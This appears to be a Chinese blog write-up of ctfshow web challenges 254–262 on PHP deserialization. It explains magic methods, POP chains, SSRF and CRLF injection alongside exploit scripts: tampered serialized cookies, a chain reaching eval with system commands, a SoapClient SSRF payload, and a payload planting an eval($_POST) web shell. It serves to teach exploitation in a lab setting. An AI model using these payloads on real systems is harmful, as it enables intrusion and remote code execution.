










---
title: "web入门反序列化篇-ctfshow"
date: 2024-11-05T20:23:35+08:00
summary: "web入门反序列化篇-ctfshow"
url: "/posts/web入门反序列化篇-ctfshow/"
categories:
  - "ctfshow"
tags:
  - "PHP反序列化"
draft: true
---

## web254

考点:认识基本的类，方法，属性等的定义方法

查看题目

```php
class ctfShowUser{	#定义一个类
  public $username='xxxxxx';#定义一个公开的成员属性username并初始化为xxxxxx
  public $password='xxxxxx';#定义一个公开的成员属性password并初始化为xxxxxx
  public $isVip=false;#定义一个公开的属性isVip并初始化为false，这个属性用来标记用户是否是VIP

  public function checkVip(){#定义一个公开的方法checkVip
    return $this->isVip;#返回isVip的值
  }
  public function login($u,$p){#定义一个公开的方法login，它接受传递两个参数$u和$p
    if($this->username===$u&&$this->password===$p){#使用了全等操作符，判断username和password是否等于$u和$p
      $this->isVip=true;#如果相等就将isVip的属性值设置为true，即用户是vip
    }
    return $this->isVip;#返回isVip的属性的值
  }
  public function vipOneKeyGetFlag(){#定义一个公开方法vipOneKeyGetFlag
    if($this->isVip){#检查用户是否是vip
      global $flag;#使用global关键字声明$flag变量为全局变量
      echo "your flag is ".$flag;#输出flag
    }else{
      echo "no vip, no flag";
    }
  }
}

$username=$_GET['username'];
$password=$_GET['password'];#从URL的GET请求中获取username和password参数的值，并分别赋值给变量$username和$password。

if(isset($username) && isset($password)){#检查$username和$password变量是否已设置
  $user = new ctfShowUser();#实例化对象
  if($user->login($username,$password)){#调用ctfShowUse类中login()方法
    if($user->checkVip()){#检查用户是否是vip
      $user->vipOneKeyGetFlag();#如果用户是VIP，调用vipOneKeyGetFlag()方法输出flag。
    }
  }else{
    echo "no vip,no flag";
  }
}
```

解析代码如图

在`login`方法内部，会检查传入的用户名和密码是否强等于赋值给user的类中的用户名和密码，如果等于就会给isVip的值换成true，

由于这里的user是固定的，所以username和password是一样的

所以我们只需要把我们传入的用户名和密码等于存储的公开属性的用户名和密码就可以通过验证了

?username=xxxxxx&password=xxxxxx

## web255

### 学习unserialize()反序列函数

```php
class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;

    public function checkVip(){
        return $this->isVip;
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function vipOneKeyGetFlag(){
        if($this->isVip){
            global $flag;
            echo "your flag is ".$flag;
        }else{
            echo "no vip, no flag";
        }
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    $user = unserialize($_COOKIE['user']);    
    if($user->login($username,$password)){
        if($user->checkVip()){
            $user->vipOneKeyGetFlag();
        }
    }else{
        echo "no vip,no flag";
    }
}

```

### unserialize()函数

**unserialize** 将字符串还原成原来的对象，用于将已经序列化（serialized）的字符串或数据恢复成 PHP 的值或对象。序列化是将数据结构或对象状态转换为可存储或传输的格式（通常是字符串）的过程，而反序列化（即 `unserialize()` 的功能）则是这个过程的逆操作。

$user = unserialize($_COOKIE['user'])---这行代码时它意味着开发者正在从用户的浏览器发送回来的cookie中读取一个名为 `'user'` 的值，并且尝试将这个值从序列化（serialized）的格式转换回其原始的 PHP 值或对象（反序列化）。

可以看到，由于这三个属性是公开属性，是我们可以更改的，代码中没有可以将isVip属性的值设置为true的地方，所以我们需要自己将这个属性设置为true，然后进行序列化，将序列化后的值用cookie方式传入

**这里注意一下要进行反序列化后要进行url编码，不然传入的cookie值没有用**

poc:

```php
<?php
class ctfShowUser{
	public $username = 'xxxxxx';
	public $password = 'xxxxxx';
	public $isVip = true;
}
	$user = urldencode(serialize(new ctfShowUser()));
	echo $user;
?>
```

输出user的值:O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A8%3A%22password%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D

因为还存在`login`函数，需要我们传入的属性的值和反序列化后的赋值相同，所以方便点我们传入的`username`和`password`还是正常为`xxxxxx`就行

把username和password通过GET传入，把user通过cookie传入，就可以拿到flag了



## web256

```php
class ctfShowUser{
  public $username='xxxxxx';
  public $password='xxxxxx';
  public $isVip=false;

  public function checkVip(){
    return $this->isVip;
  }
  public function login($u,$p){
    return $this->username===$u&&$this->password===$p;
  }
  public function vipOneKeyGetFlag(){
    if($this->isVip){
      global $flag;
      if($this->username!==$this->password){
          echo "your flag is ".$flag;
       }
    }else{
      echo "no vip, no flag";
    }
  }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
  $user = unserialize($_COOKIE['user']);  
  if($user->login($username,$password)){
    if($user->checkVip()){
      $user->vipOneKeyGetFlag();
    }
  }else{
    echo "no vip,no flag";
  }
```

在vipOneKeyGetFlag()中多加了一个判断句

if($this->username!==$this->password)--意思是传入的username和password不能一样,无论是值还是类型

**`!==`运算符**：这是PHP中的“全等不等于”运算符。它不仅比较两个值是否不相等，还比较它们的类型是否不同。如果两个值不相等且类型也不同，则表达式的结果为`true`；否则为`false`。

所以只要让username和password的值不一样就行了

poc:

```php
<?php
class ctfShowUser{
    public $username = 'ccbbaa';
    public $password = 'aabbcc';
    public $isVip=true;
}
$user=new ctfShowUser();
echo urlencode(serialize($user));
?>
```

## web257

这里有两个魔术方法

_construct  创建对象

_destruct  删除对象

### _construct()魔术方法

在PHP中，`__construct()` 是一个特殊的魔术方法（magic method），它会在对象被创建时自动调用

触发条件：在类实例化对象时自动调用构造函数

作用：初始化函数，对类进行初始化，同时也可以执行其它语句

```php
<?php
class User {
    public $username;
    public function __construct($username) {
        $this->username = $username;
        echo "触发了构造函数1次" ;
    }
}
$test = new User("benben");    //实例化对象时触发构造函数__construct()
$ser = serialize($test);       //在序列化和反序列化过程中不会触发构造函数
unserialize($ser);
?>

```

### _destruct()魔术方法

`__destruct()` 函数是 PHP 中的一个魔术方法（magic method），它会在一个对象不再被使用时，或者脚本执行结束时，自动被调用。

触发条件：对象引用完成，或对象被销毁

作用：执行清理工作

```php
<?php
class User {
    public function __destruct()
    {
        echo "触发了析构函数1次";
    }
}
$test = new User("benben");  //实例化对象结束后，代码运行完会销毁，触发析构函数_destruct()
$ser = serialize($test);     //在序列化过程中不会触发
unserialize($ser);           //在反序列化过程中会触发，反序列化得到的是对象，用完后会销毁，触发析构函数_destruct()
?>

```

学完知识点，我们回过头来分析代码：

```php
class ctfShowUser{
    private $username='xxxxxx';
    private $password='xxxxxx';
    private $isVip=false;
    private $class = 'info';

    public function __construct(){
        $this->class=new info();
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function __destruct(){
        $this->class->getInfo();
    }

}

class info{
    private $user='xxxxxx';
    public function getInfo(){
        return $this->user;
    }
}

class backDoor{
    private $code;
    public function getInfo(){
        eval($this->code);
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    $user = unserialize($_COOKIE['user']);
    $user->login($username,$password);
}
```

如果我们想得到flag，就需要利用backdoor这个类的getInfo函数，code这个私有属性储存着我们要执行的命令，触发getInfo的方法在ctfShowUser这个类中，我们可以利用他的__destruct函数来触发在创建对象时类的__getInfo()函数，所以我们可以通过ctfShowUser的__construct魔术方法来创建backdoor对象，然后因为$user会经过一次反序列化，这个反序列化会触发destruct函数，因此可以触发getinfo的方法

所以我们这里就需要构造POP链了

### POP链

在反序列化中，我们可以控制的数据就是对象中的属性值(**成员变量**),
所以在php反序列化中有一种漏洞利用方法叫"**面向属性编程**“，
**pop链**就是利用**魔术方法**在里面进行**多次跳转**然后获取**敏感数据**的一种payload

POP链的基本思路是，通过反序列化攻击，构造出一条“链”，让程序依次执行其中的命令，最终实现攻击者想要的目的。这条“链”是由多个对象序列化数据组成的，每个对象都包含着下一个对象的引用。当程序反序列化第一个对象时，就会自动解析其中的引用，并继续反序列化下一个对象，以此类推，最终执行攻击者希望执行的代码。

所以我们用构造POP链:

```
ctfShowUser::__construc->ctfShowUser::__destruct->>backDoor::__getInfo
```

exp:

```php
<?php
class ctfShowUser{
    private $username='xxxxxx';
    private $password='xxxxxx';
    private $isVip=false;
    private $class = 'info';
    public function __construct(){
        $this->class=new backDoor();
    }
}
class backDoor{
    private $code='system("ls");';
}
$user = urlencode(serialize(new ctfShowUser()));
echo $user;
?>
```

先查看目录找到flag文件

然后再把code中的system中的命令改一下再传进去就可以拿到flag了

## web258

```php
class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;
    public $class = 'info';

    public function __construct(){
        $this->class=new info();
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function __destruct(){
        $this->class->getInfo();
    }

}

class info{
    public $user='xxxxxx';
    public function getInfo(){
        return $this->user;
    }
}

class backDoor{
    public $code;
    public function getInfo(){
        eval($this->code);
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    if(!preg_match('/[oc]:\d+:/i', $_COOKIE['user'])){
        $user = unserialize($_COOKIE['user']);
    }
    $user->login($username,$password);
}

```

增加了对user的正则匹配，过滤掉了[oc]:\d+:/i

1. **`oc`**：匹配字符 `o` 或 `c`
3. :**`\d+`**：冒号后面跟着一个或多个数字（`\d+`），再跟一个冒号。这表示匹配的格式为 `o:数字:` 或 `c:数字:`。
4. **`:`**（再次出现）：与前面的冒号相同，这个冒号也是作为普通字符出现的，表示要匹配的文本中数字后面必须再跟一个冒号。

所以o:+数字:或者c:+数字:都是会被过滤的

既然这样那我们先看看我们原来的实例化对象序列化后有没有这两种字符串

```php
<?php
class ctfShowUser{
    public $username='1';
    public $password='2';
    public $isVip=false;
    public $class = 'backDoor';
    public function __construct(){
        $this->class=new backDoor();
    }
}
class backDoor{
    public $code='system("ls");';
}
$user = serialize(new ctfShowUser());
echo $user;
?>
```

输出后得到

O:11:"ctfShowUser":4:{s:8:"username";s:1:"1";s:8:"password";s:1:"2";s:5:"isVip";b:0;s:5:"class";O:8:"backDoor":1:{s:4:"code";s:13:"system("ls");";}}

可以看到有应该O:11:和O:8:,那我们给他在数字前面加个加号就可以了

所以我们给数字加上`+`来绕过。

为什么是用加号，实验得出来的，+11和11序列化后的结果都是一样的

修改后的exp(记得先修改再进行序列化)

```php
<?php
class ctfShowUser{
    public $username='1';
    public $password='2';
    public $isVip=false;
    public $class = 'backDoor';
    public function __construct(){
        $this->class=new backDoor();
    }
}
class backDoor{
    public $code='system("ls");';
}
$user = serialize(new ctfShowUser());
$user1 = str_replace(':11',':+11',$user);
$user2 = str_replace(':8',':+8',$user1);
echo urlencode($user2);
?>

```

(这道题的属性跟上一题不一样，记得把属性也改一下，我就是因为忘记改了结果一直没跑出来)

后面把命令改一下再放进去就行了

## 重点:web259

index.php

```php
<?php

highlight_file(__FILE__);


$vip = unserialize($_GET['vip']);
//vip can get flag one key
$vip->getFlag();


Notice: Undefined index: vip in /var/www/html/index.php on line 6

Fatal error: Uncaught Error: Call to a member function getFlag() on bool in /var/www/html/index.php:8 Stack trace: #0 {main} thrown in /var/www/html/index.php on line 8
```

提示中也有一段代码:

flag.php

```php
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);#_SERVER['HTTP_X_FORWARDED_FOR'] 中的字符串按照逗号（,）分割成一个数组，并将这个数组赋值给变量 $xff。
array_pop($xff);#array_pop()移除了 $xff 数组中的最后一个元素
$ip = array_pop($xff);#array_pop() 函数，这次它移除了 $xff 数组中剩余元素的最后一个（即倒数第二个 IP 地址，如果原始字符串中只有一个 IP 地址，则这个调用会移除那个唯一的 IP 地址），并将这个 IP 地址赋值给变量 $ip。
if($ip!=='127.0.0.1'){
	die('error');#检查ip地址是否为本地回环地址
}else{
	$token = $_POST['token'];
	if($token=='ctfshow'){
		file_put_contents('flag.txt',$flag);#检查 $token 是否等于 'ctfshow'。如果等于，尝试将 $flag 变量的内容写入名为 'flag.txt' 的文件。
	}
}
```

对上面的代码加以解释

### explode()函数

`explode()` 函数是 PHP 中用于将字符串按照指定的分隔符分割成数组的内置函数

### array_pop函数

`array_pop()` 是 PHP 中的一个数组函数，它用于移除数组中的最后一个元素并返回该元素的值。这个函数会修改原始数组，使其少了最后一个元素。

```php
$fruits = array("apple", "banana", "orange");
$lastFruit = array_pop($fruits);

echo "Last fruit: " . $lastFruit; // 输出 "Last fruit: orange"
print_r($fruits); // 输出：Array ( [0] => apple [1] => banana )

```

刚开始看这道题的时候也是一点办法都没有，因为这里一个类也没有，也不知道怎么构造pop链，然后就去看了wp，由于源代码中没有出现任何的类和getflag方法，我们需要调用一个不存在的方法，这时可以想到触发__call魔术方法。这里观察代码明显发现并没有相关的类可以利用，所以想到利用原生类进行反序列化利用。发现这里考的是PHP原生类，那我们就先了解一下知识点

### PHP原生类

在PHP中，反序列化是一个常见的安全问题，特别是当代码中存在反序列化的功能点，但无法构造出完整的POP链时。这时，可以尝试利用PHP的原生类来破解。PHP的一些原生类中内置了魔术方法，如果能够巧妙地构造可控参数并触发这些魔术方法，就可能达到预期的目的。

#### SoapClient 类

PHP 的内置类 SoapClient 是一个专门用来访问web服务的类，可以提供一个基于SOAP协议访问Web服务的 PHP 客户端。

该内置类有一个 `__call` 方法，当 `__call` 方法被触发后，它可以发送 HTTP 和 HTTPS 请求。正是这个 `__call` 方法，使得 SoapClient 类可以被我们运用在 SSRF 中。SoapClient 这个类也算是目前被挖掘出来最好用的一个内置类。

该类的构造函数如下：

```
public SoapClient :: SoapClient(mixed $wsdl [，array $options ])
```

- 第一个参数是用来指明是否是wsdl模式，将该值设为null则表示非wsdl模式。
- 第二个参数为一个数组，如果在wsdl模式下，此参数可选；如果在非wsdl模式下，则必须设置location和uri选项，其中location是要将请求发送到的SOAP服务器的URL，而uri 是SOAP服务的目标命名空间。

### _call()魔术方法

当调用不存在或不可见的成员方法时，PHP会先调用`__call()`方法来存储方法名及其参数。

`__call(string $function_name, array $arguments)`该方法有两个参数，第一个参数 `$function_name` 会自动接收不存在的方法名，第二个 `$arguments` 则以数组的方式接收不存在方法的多个参数。

所以我们需要利用SoapClient原生类来构造**SSRF**（用服务器本身请求服务器），并利用**CRLF**来构造数据包。

那什么是SSRF呢？

### SSRF攻击

SSRF（Server-Side Request Forgery）指的是服务器端请求伪造攻击，是一种由攻击者构造请求，利用存在缺陷的Web应用作为代理，让服务端发起请求的安全漏洞。

SSRF攻击的基本原理在于攻击者利用服务器作为代理来发送请求。攻击者首先寻找目标网站中可以从服务器发出外部请求的点，比如图片加载、文件下载、API请求等功能。随后，攻击者通过向这些功能提交经过特别构造的数据（如修改URL或参数），诱使服务器向攻击者控制的或者内部资源发送请求。此时，服务器充当了攻击者与目标之间的“桥梁”，攻击者可以通过它来接触和操作内部服务，绕过安全限制。

#### SSRF攻击的类型

1. **内部SSRF**：攻击者利用漏洞与应用程序的后端或内部系统交互。这种情况下，攻击者可能试图访问数据库、HTTP服务或其他仅在本地网络可用的服务。
2. **外部SSRF**：攻击者利用漏洞访问外部系统。攻击者可能构造恶意的URL，利用Web应用程序的代理功能或URL处理机制，向存在漏洞的服务器发送请求，以获取外部网络资源或执行其他恶意操作。

#### SSRF出现的根本原因

由于服务端提供了从其他服务器应用获取数据的功能而且没有对目标地址做过滤与限制。

也就是说，对于为服务器提供服务的其他应用没有对访问进行限制，如果我们构造好访问包，那就有可能利用目标服务对他的其他服务器应用进行调用。

那什么是CRLF呢?

### CRLF攻击

CRLF攻击，全称Carriage Return Line Feed攻击，是一种利用CRLF字符（回车换行符，即`\r\n`）的安全漏洞进行的攻击方式

#### CRLF字符的作用

- CRLF字符是两个ASCII字符，回车（Carriage Return，`\r`）和换行（Line Feed，`\n`）的组合。
- 在许多互联网协议中，包括HTTP、MIME（电子邮件）和NNTP（新闻组）等，CRLF字符被用作行尾（EOL）标记，以分隔文本流中的不同部分。

#### CRLF攻击的原理

- CRLF攻击利用了HTTP协议中换行符的漏洞。HTTP协议规定，每个报文的头部信息的行结束必须是CRLF字符。
- 攻击者通过在恶意输入中插入CRLF字符，可以改变HTTP报文的格式，从而绕过一些安全机制。
- 具体来说，攻击者可以在HTTP请求中的参数值中插入CRLF字符，使得服务器在解析请求时将参数值误认为是HTTP头部的一部分。这样一来，攻击者就可以利用这个漏洞进行一系列攻击，如HTTP响应拆分攻击、HTTP响应劫持攻击等。

- **通过CRLF注入，攻击者可以在HTTP响应中插入额外的头部信息或修改现有的头部信息，从而控制响应的内容或行为。**

了解完基本知识点，那就开始做题吧

由于源代码中没有出现任何的类和getflag方法，我们需要调用一个不存在的方法，这时可以想到触发__call魔术方法，而soapclient原生类中有_call魔术方法，所以我们需要调用soapclient原生类来构造**SSRF**（用服务器本身请求服务器），并利用**CRLF**字符来构造数据包。

exp：

```php
<?php
$ua = "ceshi\r\nX-Forwarded-For: 127.0.0.1,127.0.0.1\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 13\r\n\r\ntoken=ctfshow";
$client = new SoapClient(null,array('uri' => 'http://127.0.0.1/' , 'location' => 'http://127.0.0.1/flag.php' , 'user_agent' => $ua));
echo urlencode(serialize($client));
?>
#输出最后需要传入vip的值
```

通过GET传入vip的参数值，然后访问flag.txt就可以拿到flag了

## web260

```php
if(preg_match('/ctfshow_i_love_36D/',serialize($_GET['ctfshow']))){
    echo $flag;
}

```

看题目的关键代码

这里对传入的ctfshow参数进行序列化后做了一个正则匹配

因为ctfshow_i_love_36D序列化后是s:18:"ctfshow_i_love_36D"; 里面是有ctfshow_i_love_36D的

所以正常传入ctfshow_i_love_36D就可以拿到flag了。

## web261

```php
class ctfshowvip{
    public $username;
    public $password;
    public $code;

    public function __construct($u,$p){
        		$this->username=$u;
        		$this->password=$p;
    }
    public function __wakeup(){
        if($this->username!='' || $this->password!=''){
            die('error');
        }
    }
   	public function __invoke(){
        		eval($this->code);
    		}

    public function __sleep(){
        $this->username='';
        $this->password='';
    }
    		public function __unserialize($data){
        		$this->username=$data['username'];
        		$this->password=$data['password'];
        		$this->code = $this->username.$this->password;
   		 }
    		public function __destruct(){
        		if($this->code==0x36d){
            		file_put_contents($this->username, $this->password);
        		}
    		}
}

unserialize($_GET['vip']);
```

又出现了几个新的魔术方法

### __wakeup()魔术方法

**调用unserialize()时触发**，反序列化恢复对象之前调用该方法，例如重新建立数据库连接，或执行其它初始化操作。unserialize()会检查是否存在一个__wakeup()方法。如果存在，则会先调用__wakeup()，预先准备对象需要的资源。

正常来说`wakeup`魔术方法会先被触发，然后再进行反序列化

### __invoke()魔术方法

当你尝试将一个对象像函数一样调用时，`__invoke()` 会被触发。

### __sleep()魔术方法

**调用serialize()时触发** ，在对象被序列化前自动调用，常用于提交未提交的数据，或类似的清理操作。同时，如果有一些很大的对象，但不需要全部保存，这个功能就很好用。**serialize()函数会检查类中是否存在一个魔术方法__sleep()。如果存在，该方法会先被调用，然后才执行序列化操作**。此功能可以**用于清理对象**，并返回一个包含对象中所有应被序列化的变量名称的数组。如果该方法未返回任何内容，则 NULL 被序列化，并产生一个E_NOTICE级别的错误

此功能可以用于清理对象，并返回一个包含对象中所有应被序列化的变量名称的数组。

如果类中同时定义了 __unserialize() 和 __wakeup() 两个魔术方法，则只有 __unserialize() 方法会生效，wakeup() 方法会被忽略。

exp:

```php
<?php
class ctfshowvip{
    public $username;
    public $password;
    public $code;
    public function __wakeup(){
        if($this->username!='' || $this->password!=''){
            die('error');
        }
    }
    public function __unserialize($data){
        $this->username=$data['username'];
        $this->password=$data['password'];
        $this->code = $this->username.$this->password;
    }
    public function __destruct(){
        if($this->code==0x36d){
            file_put_contents($this->username, $this->password);
        }
    }
}
$a = new ctfshowvip();
$a -> username = "877.php";
$a -> password = "<?php eval(\$_POST['cmd']);?>";
$b = serialize($a);
echo urlencode($b);
```

将序列化后的字符串传入vip，接着访问877 .php,再进行蚁剑连接就行了

## web262

这里就是字符串逃逸了

### 字符串逃逸

这个可谓是常用的姿势了，那么原理是什么呢，为什么要逃逸字符串呢

#### 引子

在php中，反序列化的过程必须严格按照序列化规则才能实现反序列化

举个例子

```php
<?php
$str = 'a:2:{i:0;s:5:"admin";i:1;s:8:"password";}';
var_dump(unserialize($str));
//输出结果
array(2) {
  [0]=>
  string(5) "admin"
  [1]=>
  string(8) "password"
}
```

一般情况下，按照我们的正常理解，上面例子中变量`$str`是一个标准的序列化后的字符串，按理来说改变其中任何一个字符都会导致反序列化失败。但事实并非如此。如果在`$str`结尾的花括号后加一些字符，输出结果是一样的。

```php
<?php
$str = 'a:2:{i:0;s:5:"admin";i:1;s:8:"password";}123';
var_dump(unserialize($str));
#输出结果依然和上面的相同
```

这就说明了在花括号外面的字符是不会影响字符串本身的反序列化操作的

